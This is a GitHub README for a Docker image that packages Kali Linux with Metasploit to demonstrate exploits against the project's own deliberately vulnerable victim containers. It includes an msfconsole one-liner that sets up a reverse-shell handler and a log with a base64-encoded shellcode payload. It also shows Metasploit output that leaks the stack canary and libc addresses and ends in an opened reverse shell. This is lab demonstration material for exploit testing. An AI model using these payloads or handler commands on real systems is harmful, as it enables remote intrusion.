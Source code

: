 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
pv build docker
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `pv build -r polyverse docker`. This will create the Docker container image `polyverse/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `pv build docker` to create a new version of `polyverse/c-exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
6. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.

### tcp_echo_server.sh
Similar to c-exploit above, running "tcp_echo_server.sh" will result in output something like this:
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] 172.16.1.31:8080 - Start...
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - VULN STACK FRAME...
[*] 172.16.1.31:8080 - vuln_padding:     ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - vuln_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - vuln_saved_bp:    ["d0f280fbfd7f0000"] (0x7ffdfb80f2d0)
[*] 172.16.1.31:8080 - vuln_ret_addr:    ["8a0a400000000000"] (0x400a8a)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - MAIN STACK FRAME...
[*] 172.16.1.31:8080 - main_argv_save:   ["b8f380fbfd7f0000"] (0x7ffdfb80f3b8)
[*] 172.16.1.31:8080 - main_padding:     ["00000000"]
[*] 172.16.1.31:8080 - main_argc_save:   ["01000000"] (0x1)
[*] 172.16.1.31:8080 - main_cli_len:     ["10000000"] (0x10)
[*] 172.16.1.31:8080 - main_server_port: ["34120000"] (0x1234)
[*] 172.16.1.31:8080 - main_server_fd:   ["03000000"] (0x3)
[*] 172.16.1.31:8080 - main_client_fd:   ["04000000"] (0x4)
[*] 172.16.1.31:8080 - main_server_addr: ["02001f90000000000000000000000000"]
[*] 172.16.1.31:8080 - main_client_addr: ["02009322ac1100010000000000000000"]
[*] 172.16.1.31:8080 - main_unknown:     ["b0f380fbfd7f0000"] (0x7ffdfb80f3b0)
[*] 172.16.1.31:8080 - main_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - main_saved_bp:    ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - main_ret_addr:    ["454ff962647f0000"] (0x7f6462f94f45)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - COMPUTED ADDRESSES...
[*] 172.16.1.31:8080 - a_libc_base:      0x7f6462f73000
[*] 172.16.1.31:8080 - a_stack_free:     0x7ffdfb7ff000
[*] 172.16.1.31:8080 - a_libc_mprotect:  0x7f646306b550
[*] 172.16.1.31:8080 - a_libc_read:      0x7f6463062320
[*] 172.16.1.31:8080 - a_libc_poprdi:    0x7f6463063800
[*] 172.16.1.31:8080 - a_libc_poprsi:    0x7f646305a80b
[*] 172.16.1.31:8080 - a_libc_poprdx:    0x7f6463033d40
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - Done. (If successful, you should get a promptless shell.)
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:53730) at 2017-09-15 20:38:14 +0000


